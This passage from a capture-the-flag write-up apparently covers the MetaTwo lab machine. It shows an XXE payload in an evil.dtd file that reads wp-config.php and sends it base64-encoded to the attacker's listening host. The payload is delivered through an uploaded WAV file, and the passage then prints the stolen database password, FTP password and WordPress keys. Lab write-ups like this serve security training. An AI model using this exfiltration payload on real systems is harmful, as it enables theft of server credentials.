 Once, I knew the exploit was running properly, I decided to retrieve the contents of `wp-config.php` file.

The changes in the `evil.dtd` file are:
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.27:8888/?p=%file;'>" >
```

Re-uploading the `payload.wav` file, I get back a response and decoding it

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ cat b64-decode-wp-config.txt 
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
```